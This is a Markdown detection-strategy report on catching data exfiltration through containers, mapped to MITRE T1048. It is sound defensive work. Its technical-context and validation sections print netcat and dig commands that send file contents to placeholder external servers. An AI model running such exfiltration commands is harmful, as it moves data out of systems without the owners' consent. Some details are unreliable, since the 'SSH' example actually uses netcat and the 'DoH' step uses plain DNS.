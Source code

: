# Alerting & Detection Strategy (ADS) Report: Detect Adversarial Attempts to Bypass Security Monitoring Using Containers

## Goal
This technique aims to detect adversarial attempts to bypass security monitoring by exploiting containers as alternative communication channels for data exfiltration.

## Categorization
- **MITRE ATT&CK Mapping:** T1048 - Exfiltration Over Alternative Protocol
- **Tactic / Kill Chain Phases:** Exfiltration
- **Platforms:** Linux, macOS, Windows

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1048)

## Strategy Abstract
The detection strategy leverages data from network traffic logs and container orchestration monitoring tools (e.g., Kubernetes audit logs) to identify unusual activity indicative of alternative protocol exfiltration through containers. Key patterns analyzed include unexpected outbound connections initiated by containers, anomalous DNS requests generated within container environments, and irregular container lifecycle events.

## Technical Context
Adversaries may use containers as a means to bypass traditional network security monitoring tools due to their ephemeral nature and the encapsulation they provide. Common methods involve:
- **SSH-based Exfiltration:** Utilizing SSH services running inside containers to transfer data outside of the enterprise boundary.
- **DNSExfiltration:** Encoding exfiltrated data in DNS queries, particularly over HTTPS (DoH), which can evade traditional network filters.

Adversaries might initiate these actions using commands like:
```bash
# SSH-based Exfiltration
docker exec <container_id> nc -w 3 target_server_ip 1234 < /path/to/exfiltrate

# DNSExfiltration with dig
docker exec <container_id> dig @<dns_exfiltration_server> $(cat exfiltrated_data.txt | base64) TXT +short
```

## Blind Spots and Assumptions
- **Blind Spots:** Detection might miss sophisticated adversaries that use encrypted or obfuscated payloads, making them difficult to distinguish from normal traffic.
- **Assumptions:** This strategy assumes containers are deployed in environments where network traffic can be adequately monitored and analyzed. It also assumes that baseline behavior for container activity is well understood.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate use of SSH within containers for development or administrative tasks.
- Use of DNS-based services like DoH by legitimate applications for privacy reasons.

## Priority
**Priority:** High  
Justification: The potential impact of undetected data exfiltration is significant, as it can lead to the loss of sensitive information and intellectual property. Containers' ability to quickly scale and change state makes timely detection critical.

## Validation (Adversary Emulation)
### Exfiltration Over Alternative Protocol - SSH
1. Deploy a test container with an SSH service.
2. Execute an exfiltration command:  
   ```bash
   docker exec <container_id> nc -w 3 target_server_ip 1234 < /path/to/exfiltrate
   ```
3. Monitor network traffic for unexpected outbound connections from the container.

### Exfiltration Over Alternative Protocol - SSH (Repeat)
1. Ensure redundancy in detection by performing multiple iterations of the above test.
2. Validate consistency and reliability of alert triggers across different container instances.

### DNSExfiltration (doh)
1. Configure a DoH-capable DNS server within a container environment.
2. Execute a command to perform exfiltration via DNS queries:
   ```bash
   docker exec <container_id> dig @<dns_exfiltration_server> $(cat exfiltrated_data.txt | base64) TXT +short
   ```
3. Analyze network logs for unusual DNS query patterns.

### Exfiltrate Data using DNS Queries via dig
1. Use the `dig` command to simulate data encoding in DNS queries.
2. Validate detection mechanisms by monitoring DNS traffic and identifying anomalous requests.

## Response
When an alert triggers:
- Immediately isolate affected containers to prevent further potential exfiltration.
- Conduct a thorough investigation into network logs and container activity for signs of compromise or unauthorized access.
- Review and update security policies regarding the use of containers, focusing on enforcing strict network monitoring and controls over inter-container communication.

## Additional Resources
Additional references and context:
- None available

---

This report outlines a comprehensive strategy to detect adversarial attempts to bypass security through container-based alternative protocols. Implementing this framework enhances an organization's capability to identify and mitigate potential exfiltration activities effectively.